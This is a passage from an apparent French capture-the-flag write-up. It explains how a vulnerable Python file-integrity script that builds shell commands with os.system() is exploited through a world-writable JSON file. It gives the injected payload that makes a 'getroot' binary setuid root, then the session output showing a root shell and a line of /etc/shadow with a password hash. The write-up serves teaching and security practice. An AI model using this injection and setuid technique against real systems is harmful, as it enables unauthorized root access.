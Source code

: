 Quand au script Python (qui est une sorte de vérificateur d'intégrité des fichiers) :  

```python
import os
import json

def check():
    with open('/var/www/antitamper.list') as f:
        content = json.loads(f.read())
        for f in content:
            s = "echo '%s  %s' | md5sum -c --status >> /var/www/tamper.log" % (content[f], f)
            os.system(s)

check()
```

Le script appelle la commande *echo* via *os.system()*. Il lui passe deux arguments provenant du fichier JSON.  

Or il se trouve que ce dernier est word-writable. Le modifier pour provoquer une injection de commande n'est pas difficile par contre j'ai beau avoir cherché ce qui peut provoquer l'appel de *antitamper.py* je n'ai rien trouvé.  

J'ai finalement tenté ma chance en modifiant la première entrée du dictionnaire de cette façon :  

```
"';chown root.root /var/www/Panel/exes/getroot;chmod +s /var/www/Panel/exes/getroot;#'": "d8fa4356213b6ce9253f55acdff780ac",
```

Où getroot est un programme préalablement compilé qui fait un setuid/setgid 0 avant de lancer un shell.  

Un dièse est placé pour marquer un commentaire bash et une quote est là pour que le nombre total de quotes soit paire (sinon bash peut lever une erreur de syntaxe).  

Et miracle :  

```bash
$ cp antitamper.list /tmp/sav_antitamper.list
$ cp /tmp/modified_antitamper.list antitamper.list
$  ls -l Panel/exes/
total 740
-rw-rw-rw- 1 mysql mysql     36 Jun  9 18:12 bd.php
-rwsr-xr-x 1 root  root   10722 Jun 10 01:15 getroot
-rwxrw-rw- 1 mysql mysql 738792 Apr 19 13:44 tshd
$ ./Panel/exes/getroot
root@dexter:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@dexter:/tmp# head -1 /etc/shadow
root:$6$gN9t1RCt$dYj80MPAWCeWkh9kTpoPHuUU.x5hfaXfrB.UUWkMQDQpjDfAHO4D2RLWvG00wjUGrO8EMdfl/Ys31WePgl8hV1:16145:0:99999:7:::
```

![FUCK YEAH!](/assets/img/dexter3.gif)
